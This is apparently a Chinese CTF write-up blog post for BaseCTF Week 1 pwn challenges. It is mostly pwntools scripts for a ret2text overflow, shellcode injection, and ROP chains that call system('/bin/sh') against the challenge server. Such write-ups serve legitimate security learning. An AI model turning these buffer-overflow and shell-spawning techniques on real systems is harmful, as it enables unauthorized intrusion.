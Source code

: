 ```yaml
---
layout: post
title: "BaseCTF-Week1"
date: 2024-7-10
tags: [pwn]
comments: true
author: gbeefee

---
```


###### 0x0 签到

签到题

`nc `

`cat flag`

###### 0x1 echo

用echo命令读文件

`echo "$(<flag)"`

###### 0x2 ret2text

pwn里的hellowolrd属于是，直接修改返回地址为后门函数

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

#io = process('./pwn')
io = remote('challenge.basectf.fun','25230')

payload = b'a'*0x20 +p64(0)+p64(0x4011BB)

io.sendline(payload)

io.interactive()
```

###### 0x3 shellcode0

也是hellowolrd级别，直接输入一段shellcode，程序会自动执行。

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

#io = process('./pwn')
io = remote('challenge.basectf.fun','28285')

sc = asm(shellcraft.sh())

io.sendline(sc)

io.interactive()
```

###### 0x4 我把她丢了

基础ROP，有system，有"/bin/sh"，使用ROPgadget找到各个组件，再拼到一起

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

#io = process('./pwn')
io = remote('challenge.basectf.fun','37429')
binsh=0x402008
system =0x40120F
pop_rdi =0x401196

payload = b'a'*0x70 +p64(0)+p64(pop_rdi)+p64(binsh)+p64(system)

io.sendlineafter(b'find her.\n',payload)

io.interactive()
```

###### 0x5 彻底失去她

基础ROP，有system，无"/bin/sh"，使用read在bss段写入"/bin/sh"，使用ROPgadget找到各个组件，再拼到一起

```
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

elf=ELF('./pwn')
io = process('./pwn')
#io = remote('challenge.basectf.fun',31322)

bss = 0x404070
system = 0x4011a5
pop_rdi = 0x401196
pop_rsi = 0x4011ad
pop_rdx = 0x401265
main_addr =0x401214
ret= 0x40101a
read_got=elf.plt['read']

payload = b'a'*10 + p64(0) +\
p64(pop_rdi) + p64(0) +\
p64(pop_rsi) + p64(bss) +\
p64(pop_rdx) + p64(0x10) +\
p64(read_got) + p64(ret) +\
p64(pop_rdi) + p64(bss) + p64(system)

io.sendafter(b'name?\n', payload)
io.send(b'/bin/sh\x00')  # 发送实际的 shell 命令

io.interactive()
```


